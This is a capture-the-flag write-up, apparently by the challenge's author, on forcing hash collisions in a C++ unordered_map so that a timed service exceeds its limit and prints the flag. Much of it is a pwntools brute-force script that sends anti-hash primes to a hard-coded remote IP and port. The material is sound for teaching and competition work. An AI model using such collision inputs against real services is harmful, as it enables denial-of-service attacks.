 ### Ozymandias

 Inspiration - "Time erodes all, even the strongest walls."
 
 And so, given a wise input, that takes too long, the flag shall present itself to thee.
 
## Logic

Basically leaving the shit things in the code, we need to focus that there is an insertion taking place unordered_map.
The thing is that hashmap takes O(1) in general, which is what the knowledge of most people is aquainted to.
Under the hood, if somehow we can break the hash function, we can make this insertion complexity to O(n).

This blog explains in detail as to how : https://codeforces.com/blog/entry/62393

### Primes

So basically we need to take that list of primes and try numbers from it.
This can be done using a simple python script. I have done it using the pwntools library.

The code can be found in script.py

### Additional things 

The time constraint for 5 second is actually taken after a bit of experimenting.
On my system the code actually broke at the prime number : 42043

But when i ran it on my free t2.mircro ec2 instance, then it break much before at just 20753.
But nonetheless, since it works and is just as random to an ignorant solver, i went ahead with 5 seconds.

Also I put the sleep(1) in the processInput() function to prevent people to just brute it using a simple for loop from 1 to 1e6.

There is also a Anti dos signal in place, which prevents any kind of dos attack by closing connections which have neem inactive for a while.

### Scripting

So all that is left to do now is to get that list of primes from one of the links provided in the blog above.

We use the pwntools library for establishing the connectiion with the remote and to brute the entry of numbers from the list. Below is the code (can also be found in script.py file) : 

```python
    from pwn import *

# List of primes to test
'''
prime_list = [
    2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73,
    79, 83, 89, 97, 103, 109, 113, 127, 137, 139, 149, 157, 167, 179, 193, 199, 211,
    227, 241, 257, 277, 293, 313, 337, 359, 383, 409, 439, 467, 503, 541, 577, 619,
    661, 709, 761, 823, 887, 953, 1031, 1109, 1193, 1289, 1381, 1493, 1613, 1741,
    1879, 2029, 2179, 2357, 2549, 2753, 2971, 3209, 3469, 3739, 4027, 4349, 4703,
    5087, 5503, 5953, 6427, 6949, 7517, 8123, 8783, 9497, 10273, 11113, 12011,
    12983, 14033, 15173, 16411, 17749, 19183, 20753, 22447, 24281, 26267, 28411,
    30727, 33223, 35933, 38873, 42043, 45481, 49201, 53201, 57557, 62233, 67307,
    72817, 78779, 85229, 92203, 99733, 107897, 116731, 126271, 136607, 147793,
    159871, 172933, 187091, 202409, 218971, 236897, 256279, 277261, 299951, 324503,
    351061, 379787, 410857, 444487, 480881, 520241, 562841, 608903, 658753, 712697,
    771049, 834181, 902483, 976369
]
'''
prime_list = [2971, 3209, 3469, 3739, 4027, 4349, 4703,
    5087, 5503, 5953, 6427, 6949, 7517, 8123, 8783, 9497, 10273, 11113, 12011,
    12983, 14033, 15173, 16411, 17749, 19183,
     20753, 22447, 24281, 26267, 28411,
    30727, 33223, 35933, 38873, 42043, 45481, 49201, 53201, 57557, 62233, 67307,
    72817, 78779, 85229, 92203, 99733, 107897, 116731, 126271, 136607, 147793,
    159871, 172933, 187091, 202409, 218971, 236897, 256279, 277261, 299951, 324503,
    351061, 379787, 410857, 444487, 480881, 520241, 562841, 608903, 658753, 712697,
    771049, 834181, 902483, 976369
]

# Connect to the remote server
#host = "127.0.0.1" 
host = "3.110.104.119" # gotta change the ip here accordingly
port = 5184

def main():
    for prime in prime_list:
        # Send the prime number to the program
        conn = remote(host, port)
        
        conn.sendline(str(prime).encode())
        

        result = conn.recvline()
        
        print(prime, result)
        
        conn.close()

        # Check if output contains the flag
        if b'capturetheheadsctf' in result.lower():
            print(f"Found valid input: {prime}")
            print(result)
            break

if __name__ == "__main__":
    main()


```